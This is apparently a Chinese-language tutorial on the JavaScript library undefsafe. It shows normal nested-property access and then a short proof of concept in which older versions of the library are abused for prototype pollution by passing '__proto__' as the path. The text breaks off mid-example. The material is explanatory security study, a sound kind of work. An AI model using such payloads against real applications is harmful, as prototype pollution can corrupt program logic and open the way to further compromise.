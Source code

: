 Undefsafe是一个JavaScript库，它是一个递归的安全访问深度嵌套对象属性的工具，可以避免因为无法识别对象或属性而导致的错误。它的特点是可以安全地处理任何层次的嵌套对象，即使中间有undefined或null值也能正常工作。
```javascript
const undefsafe = require('undefsafe');

const obj = {
    foo: {
        bar: {
            baz: 42
        }
    }
};

// 使用undefsafe进行安全的属性访问
console.log(undefsafe(obj, 'foo.bar.baz'));// 42
console.log(obj);//{ foo: { bar: { baz: 42 } } }
undefsafe(obj,'foo.bar.baz','sss');
console.log(obj);//{ foo: { bar: { baz: 'sss' } } }


```
正常来说，直接访问对象的指定路径，能修改值。<br />对不存在赋值时，会在上层创建
```javascript
const undefsafe = require('undefsafe');

const obj = {
    foo: {
        bar: {
            baz: 42
        }
    }
};

// 使用undefsafe进行安全的属性访问
console.log(undefsafe(obj, 'foo.bar.baz'));// 42
console.log(obj);
undefsafe(obj,'foo.bar.baz','sss');
console.log(obj);

// 如果属性不存在则返回undefined
console.log(undefsafe(obj, 'foo.bar.qux')); // undefined
undefsafe(obj,'foo.f.qux','enterprise');
console.log(obj)
```
版本较新的undefsafe可能不会出现漏洞。<br />用它进行原型链污染。
```javascript
var a = require("undefsafe");
var object = {
    a: {
        b: {
            c: 1,
            d: [1,2,3],
            e: 'Hnusec'
        }
    }
};
var payload = "__proto__";
var target={"flag":"evil"}
a(object,payload,target);
console.log(object.flag);
```
通过undefsae修改原型属性，对object进行原型链污染。
```javascript
var a = require("undefsafe");
var object = {
```